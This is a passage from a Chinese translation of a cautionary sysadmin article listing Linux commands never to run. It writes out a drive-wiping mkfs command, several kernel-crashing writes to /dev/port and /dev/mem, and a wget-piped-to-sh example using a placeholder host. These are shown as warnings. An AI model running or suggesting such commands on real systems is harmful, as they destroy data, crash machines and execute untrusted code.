 见鬼，难道会计无论如何都真的不需要最新的应收账款文件吗？

### 格式化错了驱动器

有时候你必须使用这一条命令格式化驱动器：
```
mkfs.ext3 /dev/hda
```

…它在格式化 ext3 文件系统的主硬盘驱动器。别，请等一分钟！你正在格式化你的主驱！难道你不需要用它？

当你要格式化驱动器的时候，请务必加倍确认你正在格式化的分区是真的需要格式化的那块还是你正在使用的那块，它们是是固态，闪存还是其他氧化铁。

### 内核崩溃

一些 Linux 命令不能让你的机器长时间计算。然而，一些命令却可以导致内核崩溃。这些错误通常是由硬件问题引起的，你可以自己解决。

当你遭遇内核崩溃，重新启动系统你才可以恢复工作。在一些情况下，这会有点小烦；在另一些情况下，这是一个大问题，比如说，高负荷运作下的生产环境。下面有一个案例：

```
dd if=/dev/random of=/dev/port

 echo 1 > /proc/sys/kernel/panic

 cat /dev/port

 cat /dev/zero > /dev/mem
```
这些都会导致内核崩溃。

不要运行你并不了解它功能的命令，它们都在提醒我…

### 提防未知脚本

年轻或是懒惰的系统管理员喜欢复制别人的脚本。何必重新重复造轮子？这样，它们找到了一个很酷的脚本，并且承诺会自动检查所有备份。它们匆匆得拿走了这样一个命令：
```
wget https://ImSureThisIsASafe/GreatScript.sh -O- | sh
```
这个下载脚本将输出到 shell 上运行。很明确，别大惊小怪，对吧？不对。这个脚本可能已经被这个恶意软件毒害。当然，一般来说 Linux 比大多数操作系统都要安全，但是如果你把位置代码运行在 root 用户上，什么可能会发生。这个危害不仅在恶意软件上，脚本作者的愚蠢本身同样有害。你甚至可能会因为一个未调试的代码吃上一堑--由于你没有花时间去读它。

你认为你不会干那样的事？告诉我，所有会有这些事情发生 [container images you're running on Docker][10]？你直到它们到底在运行着什么吗？我见过太多都未验证容器里面装着什么就运行它们的系统管理员。请不要和他们一样。

### 结束

这些故事背后的道理很简单。在你的 Linux 系统里，你有巨大的控制权。你几乎可以让你的服务器做任何事。在你使用你的权限的同时，请务必做认真的确认。如果你没有，你毁灭的不是你的服务器，而是你的工作甚至是你的公司。像蜘蛛侠一样负责任的使用你的权限。

我有没有遗漏什么？在 [@sjvn][11] 或 [@enterprisenxt][12] 上告诉我那些 Linux命令在你的“[Never use this!][13]”的清单上。

--------------------------------------------------------------------------------

via: https://www.hpe.com/us/en/insights/articles/the-linux-commands-you-should-never-use-1712.html

作者：[Steven Vaughan-Nichols][a]
译者：[译者ID](https://github.com/CYLeft)
校对：[校对者ID](https://github.com/校对者ID)
